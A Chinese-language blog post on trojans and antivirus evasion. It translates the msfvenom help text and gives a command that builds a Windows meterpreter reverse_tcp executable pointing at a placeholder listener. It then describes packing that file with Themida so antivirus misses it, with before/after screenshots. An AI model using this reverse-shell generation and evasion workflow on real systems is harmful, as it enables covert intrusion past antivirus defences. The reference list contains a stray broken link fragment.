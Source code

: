 ```yaml
---
title: 木马与免杀
author: Pandaho
date: 2022-1-23 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/security-msfvenom-miansha/cover.png
---
```





## 法律声明

**中华人民共和国刑法：** 第285、286、287条

**第二百八十五条** 违反国家规定，·侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

**第二百八十六条** 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

**第二百八十七条** 利用计算机实施金融诈骗、盗窃、贪污、挪用公款、窃取国家秘密或者其他犯罪的，依照本法有关规定定罪处罚。



## 用知识的土壤来填埋这些坑洞

### msfvenom

一个后门木马生成的渗透工具，支持的命令参数：

```shell
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads # 指定特定的 Payload，如果被设置为 - ，那么从标准输入流中读取
        --payload-options            List the payload's standard options # 列出指定 Payload 的标准可选配置项
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all # 列出所有可用的项目，其中值可以被设置为 payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload # 指定 nop 在 payload 中的数量（译者注：类似堆喷射中通过 nop 滑动到 payload）
    -f, --format        <format>     Output format (use --help-formats for a list) # 指定 Payload 的输出格式
        --help-formats               List available formats # 列出所有可用的输出格式
    -e, --encoder       <encoder>    The encoder to use # 指定使用的 Encoder
    -a, --arch          <arch>       The architecture to use # 指定目标系统架构
        --platform      <platform>   The platform of the payload # 指定目标系统平台
        --help-platforms             List available platforms # 列出可用的平台
    -s, --space         <length>     The maximum size of the resulting payload # 设置未经编码的 Payload 的最大长度
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value) # 编码后的 Payload 的最大长度
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff' # 设置需要在 Payload 中避免出现的字符
    -i, --iterations    <count>      The number of times to encode the payload # 设置 Payload 的编码次数
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include # 指定包含一个额外的win32 shellcode文件
    -x, --template      <path>       Specify a custom executable file to use as a template # 指定一个特定的可执行文件作为模板
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread # 保护模板程序的功能，注入的payload作为一个新的进程运行
    -o, --out           <path>       Save the payload # 保存 Payload 到文件
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats # 指定一个变量名
（译者注：当添加 -f 参数的时候，例如 -f python，那么输出为 python 代码， payload 会被按行格式化为 python 代码，追加到一个 python 变量中，这个参数即为指定 python 变量的变量名）
        --smallest                   Generate the smallest possible payload # 尽可能生成最短的 Payload
    -h, --help                       Show this message # 帮助
```

这次主要介绍一个免杀工具，现今单纯采用工具生成的木马基本都很难逃过查杀，所以必须采用加壳、花指令，编译等方式进行免杀，以下是免杀工具测试过程：

```shell
msfvenom -platform windows -a x86 -p windows/meterpreter/reverse_tcp  lhost=x.x.x.x port=4444 -f exe -o /root/xx.exe
#先生成一个木马
set payload windows/meterpreter/reverse_tcp
#进入msfconsole设置payload
```

**Themida**

这是一款软件保护器，创建软件保护程序是为了防止攻击者直接检查或修改已编译的应用程序。软件保护器就像一个保护应用程序加密并防止可能的攻击的盾牌。当操作系统要运行受保护的应用程序时，软件保护程序将首先控制 CPU 并检查可能在系统上运行的破解工具（反编译器或反编译器）。如果一切安全，软件保护程序将继续解密受保护的应用程序，并让其控制 CPU 正常执行。

该软件主要是用来防反编译的，也就是说可以加固应用程序，那我们生成的木马自然也可以用来加固，实现免杀。

免杀效果

加固前

![图例](/assets/img/security-msfvenom-miansha/1.png)

加固后

![图例](/assets/img/security-msfvenom-miansha/2.png)



## 参考来源

[Themida官网](https://www.oreans.com/Themida.php)

](https://github.com/grafana/grafana)

[msfvenom详解](https://xz.aliyun.com/t/2381)